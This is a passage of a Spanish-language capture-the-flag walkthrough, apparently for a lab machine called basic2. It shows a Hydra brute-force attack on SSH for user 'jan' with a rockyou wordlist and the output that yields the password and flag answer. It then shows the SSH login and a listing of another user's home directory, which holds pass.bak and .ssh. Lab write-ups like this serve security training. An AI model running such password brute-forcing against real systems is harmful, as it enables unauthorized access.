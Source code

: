 ~~~shell
$ hydra ssh://$IP -l jan -P /usr/share/wordlist/rockyou-7.txt
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-07 21:13:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 2507225 login tries (l:1/p:2507225), ~156702 tries per task
[DATA] attacking ssh://10.10.219.185:22/
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 2507052 to do in 234:45h, 16 active
[22][ssh] host: 10.10.219.185   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-07-07 21:15:16
~~~

**Flag \#6:** *What is the password?*: `armando`

## Conexión SSH
Iniciamos la sessión SSH con `jan` y y contraseña `armando`
~~~shell
ssh jan@$IP 
jan@basic2:~$
~~~

~~~shell
jan@basic2:~$ ls /home -al
total 16
drwxr-xr-x  4 root root 4096 Apr 19  2018 .
drwxr-xr-x 24 root root 4096 Apr 23  2018 ..
drwxr-xr-x  2 root root 4096 Apr 23  2018 jan
drwxr-xr-x  5 kay  kay  4096 Apr 23  2018 kay
~~~

~~~shell
jan@basic2:~$ cd /home/kay
jan@basic2:/home/kay$ ls -al
total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
~~~
